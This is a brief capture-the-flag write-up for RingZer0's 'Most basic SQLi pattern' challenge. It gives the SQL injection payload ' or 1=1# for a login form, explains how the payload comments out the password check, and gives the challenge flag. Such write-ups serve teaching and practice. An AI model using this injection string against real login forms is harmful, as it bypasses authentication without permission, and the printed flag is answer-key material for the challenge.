

# Most basic SQLi pattern

## Challenge Details 

- **CTF:** RingZer0
- **Category:** SQL Injection
- **Points:** 1

## Provided Materials

- Login form

## Solution

As the challenge name is `Most basic SQLi pattern`, we can use `' or 1=1#`, so the full query will be something like this: `SELECT * FROM users WHERE username='' or 1=1#' AND password = '...'`, so after comment sign (#) the rest of the query will be ignored:

## Final Flag

`FLAG-238974289383274893`

*Created by [bu19akov](https://github.com/bu19akov)*